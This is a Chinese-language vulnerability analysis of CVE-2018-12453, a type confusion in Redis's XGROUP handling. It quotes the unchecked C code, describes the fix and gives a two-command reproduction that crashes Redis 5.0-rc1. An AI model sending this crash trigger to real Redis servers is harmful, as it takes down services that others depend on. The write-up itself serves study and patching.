


# CVE-2018-12453 CWE-704 Redis DoS

## 漏洞背景

- **XGROUP** ： Redis 中用于管理流（Stream）数据结构的命令。通过 `XGROUP`可以创建、销毁和管理与流关联的消费者组（Consumer Group）。消费者组允许多个消费者协同处理同一个流中的消息，实现消息的分发和负载均衡。

- **消费者组（Consumer Group）**：一种用于管理和协调多个消费者共同消费同一消息流的机制。 它允许多个消费者协同工作，每个消费者从流中获取不同的消息子集，从而提高消息处理的效率和可靠性。 每个消费者组都有一个唯一的名称，并且可以包含多个消费者。 消费者组确保每条消息只会被组内的一个消费者处理，避免了重复消费。 此外，消费者组还提供了消息确认机制，消费者在成功处理消息后需要显式确认，以便 Redis 知道哪些消息已被处理，哪些仍待处理。 这使得 Redis 的流（Stream）数据结构在实现高效的消息队列和事件流处理时，能够提供更强大的功能和灵活性。

- **XGROUP CREATE** ：该命令用于创建一个新的消费者组，语法如下：

  ```
  XGROUP CREATE <stream> <groupname> <id>
  ```

  其中，`<stream>` 是流的名称，`<groupname>` 是消费者组的名称，`<id>` 是消费者组的起始消息 ID。

  `XGROUP CREATE` 命令用于在 Redis 流（Stream）上创建一个消费者组（Consumer Group）：

  - `a`：流的名称。
  - `b`：消费者组的名称。
  - `$`：表示消费者组将从流中最新的消息开始消费。

  使用 `$` 作为 ID 参数时，表示消费者组将从流中最新的消息开始消费，而忽略流中已存在的历史消息。 这意味着，只有在执行 `XGROUP CREATE` 命令之后添加到流中的新消息，才会被该消费者组的消费者读取和处理。

## 漏洞原理

漏洞与 Redis 的流（Stream）数据类型的命令处理有关，特别是在处理 `XCLAIM` 和 `XREADGROUP` 等命令时，可能导致类型混淆错误。

在`xgroup`函数中，Redis假设传入的键是流类型，但未对其进行充分的类型检查。如果攻击者传入一个非流类型的键，函数内部的操作可能导致类型混淆，进而引发程序崩溃。

## 漏洞定位

在 **src/t_stream.c** 文件的第 **1562** 行的`xgroupCommand`函数中

```c
void xgroupCommand(client *c) {
     const char *help[] = {
 "CREATE      <key> <groupname> <id or $>  -- Create a new consumer group.",
 "SETID       <key> <groupname> <id or $>  -- Set the current group ID.",
 "DELGROUP    <key> <groupname>            -- Remove the specified group.",
 "DELCONSUMER <key> <groupname> <consumer> -- Remove the specified conusmer.",
 "HELP                                     -- Prints this help.",
 NULL
     };
     stream *s = NULL;
     sds grpname = NULL;
     streamCG *cg = NULL;
     char *opt = c->argv[1]->ptr; /* Subcommand name. */
 
     /* Lookup the key now, this is common for all the subcommands but HELP. */
     if (c->argc >= 4) {
         robj *o = lookupKeyWriteOrReply(c,c->argv[2],shared.nokeyerr);
         if (o == NULL) return;
         s = o->ptr;
         grpname = c->argv[3]->ptr;
 
         /* Certain subcommands require the group to exist. */
         if ((cg = streamLookupCG(s,grpname)) == NULL &&
             (!strcasecmp(opt,"SETID") ||
              !strcasecmp(opt,"DELCONSUMER")))
         {
             addReplyErrorFormat(c, "-NOGROUP No such consumer group '%s' "
                                    "for key name '%s'",
                                    (char*)grpname, (char*)c->argv[2]->ptr);
             return;
         }
     }
 
     /* Dispatch the different subcommands. */
     /******/
 }
```

当传入的参数有4个时，使用 `lookupKeyWriteOrReply` 函数查找指定的键（`c->argv[2]`）赋值给类型是 `robj *`的`o`，`robj` 是一个结构体，用于表示 Redis 中的各种数据类型的对象。但是该代码只检查了对象`o`是否为空，并没有检查其类型是否为流（`OBJ_STREAM`）

如果键 `c->argv[2]` 对应的对象不是流类型，后续的流操作（如创建消费者组）将无法正确执行，会导致意外行为或错误

在修复后的代码中加入了`checkType(c,o,OBJ_STREAM)`来判断`o`的类型是否为流

## 影响版本

Redis 5.0 正式发布版本之前的所有版本

## 环境搭建

使用的 Redis 版本是 5.0-rc1，这是一个候选发布版本



## 漏洞复现

1、使用redis-cli本地连接redis

```sh
redis-cli -h 127.0.0.1 -p 6379
```

2、依次执行以下命令

```sh
set a 123
xgroup create a b $
```



3、查看容器日志，`CURRENT CLIENT INFO` 部分显示了客户端的当前状态。其中，`cmd=xgroup` 表明客户端正在执行 `XGROUP` 命令。随后，Redis 记录了寄存器状态和内存测试结果


4、最终显示如下图所示，表明 Redis 在处理 `XGROUP` 命令时遇到了严重错误，导致崩溃


## POC分析

1、将字符串值 `123` 赋给键 `a`。如果键 `a` 已经存在，其原有值将被新值 `"123"` 覆盖

```sh
set a 123
```

2、创建一个新的消费者组

```sh
xgroup create a b $
```

3、在执行此命令时，指定的 `a` 键已存在且其类型不是 stream，`xgroup` 函数可能会错误地处理该键，导致类型混淆，从而引发崩溃或拒绝服务（DoS）。

## 参考链接

[Redis 5.0 - Denial of Service - Linux dos Exploit](https://www.exploit-db.com/exploits/44908)

[Type confusion in the xgroupCommand function in t_stream... · CVE-2018-12453 · GitHub Advisory Database](https://github.com/advisories/GHSA-wjvh-g4jc-jg48)

[Abort in XGROUP if the key is not a stream · redis/redis@c04082c](https://github.com/redis/redis/commit/c04082cf138f1f51cedf05ee9ad36fb6763cafc6)
